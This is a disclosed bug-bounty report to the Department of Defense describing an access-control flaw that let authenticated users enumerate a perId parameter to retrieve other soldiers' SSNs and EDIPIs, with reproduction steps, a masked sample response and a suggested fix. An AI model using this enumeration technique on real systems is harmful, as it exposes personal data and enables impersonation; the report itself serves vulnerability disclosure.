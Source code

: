 # ██████ SSN/EDPI

## Report Details
- **Report ID**: 1541817
- **URL**: https://hackerone.com/reports/1541817
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-04-15T04:49:38.570Z
- **Disclosed**: 2024-10-25T15:21:07.736Z

## Reporter
- **Username**: badlifeguard
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
With some simple URL manipulation, an authenticated user is able to request other soldiers SSN, perID, EDPI. 

## References
CWE-200 - Information Disclosure
CWE-284 - Improper Access Control
Collaborators: 
theonetruepengu
hxhbrofessor

## Impact

After pulling an perID, someone would have access to view their  SSN, EDPI. With most recent breaches of SSNs, one attacker would have enough information to verify and impersonate another soldier for malicious purposes.

## System Host(s)
████, ██████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Authenticate to https://████████/#/soldierRecord/
Run your browsers developer mode.
Then look for the network request:"listReviews?perId=######"

https://███████/svc/reviewController/listReviews?perId=######

If you load that page with random numbers you will be able to see all soldier PII. If the soldier associated to the perID is no longer in the Army, the information is Null.

[{"perId":3643051,"ssn":"XXXXXXXXX","edipi":"XXXXXXXXXX","soldierName":"HRABAK X X","type":"P","typeFull":"PERSONNEL RECORDS REVIEW","mode":null,"createDt":1642087763000,"status":"C","statusFull":"COMPLETE","statusDt":1645994091000,"dueDt":1677530091000,"domId":"AV","error":"N","soldierAbsence":null,"soldierAbsenceRemark":null,"reviewer":978715,"reviewerSignDt":1645994091000,"reviewerRemark":null,"soldierSignDt":1645994016000,"soldierRemark":null,"permMissingDocs":null,"tempMissingDocs":null,"emailList":null,"lockDt":null,"reviewFolder":null,"method":"I","documents":null,"cases":null,"lesPresent":false,"srbPresent":false,"lesVerified":true,"srbVerified":true,"prevSignDate":1645994016000,"inProgress":false,"reviewerComplete":false,"soldierComplete":true,"supportingDocsVerified":true,"reviewerSigned":true,"soldierSigned":true}]

## Suggested Mitigation/Remediation Actions
Correct permissions on access to these URLs. Authenticated users should be checked against their own ID and data.



## Attachments
No attachments
